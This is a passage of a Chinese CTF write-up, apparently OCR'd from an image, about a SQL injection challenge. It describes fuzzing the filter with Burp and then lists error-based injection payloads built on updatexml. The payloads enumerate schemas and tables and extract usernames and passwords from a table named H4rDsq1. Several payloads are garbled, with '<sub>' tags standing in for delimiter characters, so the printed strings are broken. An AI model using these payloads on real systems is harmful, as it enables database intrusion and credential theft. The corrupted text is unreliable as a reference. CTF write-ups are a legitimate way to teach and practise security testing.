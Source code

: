 根据fuzz测试，本题过滤了 空格，= *

### 使用burp进行fuzz测试

1打开burp 抓包

2 吧抓到的数据包放入intruder模块

3 设置攻击位置，载入字典，爆破

4 根据各口令字长的不同，每种字长的都任意拿出一个放进repeater访问一下

![img](img/6c367bc19d2cde072b7ea23d8ebeb80b.png)

5 根据repeater报文判断哪一类字长的是被过滤的

### sql报错注入

1’or(1)like(2)%23

1’or(updatexml(’<sub>’,concat(’</sub>’,database(),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(left(group_concat(schema_name),30))from(information_schema.schemata)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(right(group_concat(schema_name),30))from(information_schema.schemata)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(group_concat(table_name))from(information_schema.tables)where(table_schema)like’geek’),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(group_concat(id,’<sub>’,username,’</sub>’,password))from(geek.H4rDsq1)),’<sub>’),’</sub>’))%23

1’or(updatexml(’<sub>’,concat(’</sub>’,(select(right(group_concat(id,’<sub>’,username,’</sub>’,password),30))from(geek.H4rDsq1)),’<sub>’),’</sub>’))%23
